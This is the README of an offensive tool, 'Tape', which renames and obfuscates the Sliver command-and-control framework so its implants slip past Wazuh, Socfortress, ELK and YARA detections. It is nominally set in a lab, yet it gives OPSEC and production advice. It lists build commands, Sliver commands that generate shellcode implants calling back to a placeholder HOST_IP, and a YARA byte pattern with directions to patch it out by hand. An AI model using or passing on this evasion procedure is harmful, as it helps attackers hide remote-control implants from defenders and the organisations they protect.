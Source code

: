 # Tape
Scotch-Tape usage for [Sliver](https://github.com/BishopFox/sliver) obfuscation  
This technique looks a bit like this ...
<p align="center">
  <img src="./image/jim-carrey-tape.gif" alt="jimmy-jim width="290" height="290" />
</p>  


## In Labs - GOAD with Wazuh Activated    
1. Yes, I know that just tweaking some settings in Havoc allows the demon.bin to be executed on GOAD (on Socfortress rules machines) without issues. But in this case, my goal was to achieve the same thing manually with [Sliver](https://github.com/BishopFox/sliver), which allowed me to learn much more about this C2.
And for Havoc, if you didn't know—now you know.    
2. In this case, we will bypass and obfuscate our payload with minimal effort. (If my calculations are correct: Socfortress—out, ELK multi sliver rules—out, Wazuh sliver YARA rules—out. I’m not considering Defender in my equation because some built-in bypasses in the implant can still be flagged, even in this case.)  

## Taping.sh
1. Clone [Sliver](https://github.com/BishopFox/sliver) repository and this repo [Tape](https://github.com/Oni-kuki/Tape)  
```taping.sh
git clone https://github.com/BishopFox/sliver.git
git clone https://github.com/Oni-kuki/Tape
```
* If you want the latest stable version of sliver (v1.5.43) go in sliver repo and make
```
git checkout v.1.5.43
``` 
2. Go in [Tape](https://github.com/Oni-kuki/Tape) repo 
```taping.sh
cd Tape
``` 
3. Modify first variables on the [Taping.sh](https://github.com/Oni-kuki/Tape/blob/main/taping.sh) script (no space, no problematic special character)  
```taping.sh
var1=XXXXX #replacement of bishopfox
var2=XXXXX #replacement of sliver
var3=XXXXX #replacement of Sliver 
```
4. Execute [Taping.sh](https://github.com/Oni-kuki/Tape/blob/main/taping.sh)
```taping.sh
# in this example, but you can specify the folder where sliver is located depending on your clone 
./taping.sh version 1.5 ../sliver/
./taping.sh version 1.6 ../sliver/
```  

### Some explanation and OPSEC Recomendations
> [!NOTE]  
> Version 1.5 or 1.6 are reference to [Sliver](https://github.com/BishopFox/sliver) version
> 1.6 is still in development so use it with caution (do not use it in production).   
> I add some new features to make easier the external building, now with --ext argument we can build external-builder with 1.6 donut-loader wich are more OPSEC for implant and build the server with the 1.5 donut-loader wich are more OPSEC for the execute-assembly function.  
> So at the end we will have 3 binaries external-server (just for implant creation), client, and the server.  

```taping.sh
# in this example, but you can specify the folder where sliver is located depending on your clone
./taping.sh version 1.5 ../sliver --ext
./taping.sh version 1.6 ../sliver --ext
```

#### Why did I make this ? 
Because the Donut loader in version 1.6 doesn't allow the execute-assembly method to work correctly.
I tested a lot of things to understand why, and I isolated the fact that the loader cannot retrieve the output. This might be linked to the AMSI patch (the bypasses are applied in two ways: one for Donut itself, (for implant) and the other in the loader for execute-assembly). However, I haven't delved too deeply into the subject yet.  

Regardless, version 1.6 is quieter for the implant, while version 1.5 works better for execute-assembly. In any case, version 1.5 is more stable and production-ready.  

> [!CAUTION]  
> This takes a while, so be patient  
> I highly recommend reading the script, because it's necessary to make some modification on it, in link with your fork  

## Scotch.py  
This script can be used independently of this repo, (if you have read the [Taping.sh](https://github.com/Oni-kuki/Tape/blob/main/taping.sh) you'll notice some redundancy in the obfuscation techniques.)  

```
python3 scotch.py FILE
```

> [!CAUTION] 
> Depending on your listener, not every obfuscation technique can be applied. By default, the obfuscation is set for an mTLS listener.   
> So again Read the script

```sliver
mtls -L HOST_IP -l port -p
generate -m HOST_IP:PORT -G --skip-symbols -f shellcode -s ./FOLDER/TO/SAVE
```
## Last but not Least  
I don't have automated one particular obfuscation (wireguard strings because it's still a bit tricky)  
You can make it manually with ghidra for the moment, I will automated in a few days.  
the hex to change is based on this rule part :
```
$p1 = {66 81 ?? 77 67}
```
Use the yara rule to identify correctly the Hex part; it's more precise.  